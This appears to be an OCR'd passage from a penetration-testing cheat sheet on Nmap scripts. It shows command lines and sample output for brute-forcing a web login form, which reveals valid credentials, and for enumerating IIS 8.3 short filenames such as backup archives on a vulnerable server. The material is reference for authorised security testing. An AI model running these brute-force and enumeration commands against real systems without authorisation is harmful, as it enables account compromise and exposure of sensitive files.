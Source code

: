      root@hostname: ~/ # nmap --script http-form-brute -p 80 192.168.1.12

     |PORT     STATE SERVICE REASON
     |80/tcp   open  http    syn-ack
     | http-form-brute:
     |   Accounts
     |     Patrik Karlsson:secret - Valid credentials
     |   Statistics
     |_    Perfomed 60023 guesses in 467 seconds, average tps: 138


### HTTP-IIS-Short-Name - Brute-Force
_Attempts to Brute-Force the 8_3 filenames (commonly known as short names) of files and directories in the root folder of vulnerable IIS servers_ This script is an implementation of the PoC "iis shortname scanner"_
     
     root@hostname: ~/ # nmap -p80 --script http-iis-short-name-brute 192.168.1.12

     |PORT   STATE SERVICE
     |80/tcp open  http
     | http-iis-short-name-brute:
     |   VULNERABLE:
     |   Microsoft IIS tilde character "~" short name disclosure and denial of service
     |     State: VULNERABLE (Exploitable)
     |     Description:
     |      Vulnerable IIS servers disclose folder and file names with a Windows 8.3 naming scheme inside the webroot folder.
     |      Shortnames can be used to guess or brute force sensitive filenames. Attackers can exploit this vulnerability to
     |      cause a denial of service condition.
     |
     |     Extra information:
     |
     |   8.3 filenames found:
     |     Folders
     |       admini~1
     |     Files
     |       backup~1.zip
     |       certsb~2.zip
     |       siteba~1.zip
     |
     |     References:
     |       http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf
     |_      https://github.com/irsdl/IIS-ShortName-Scanner
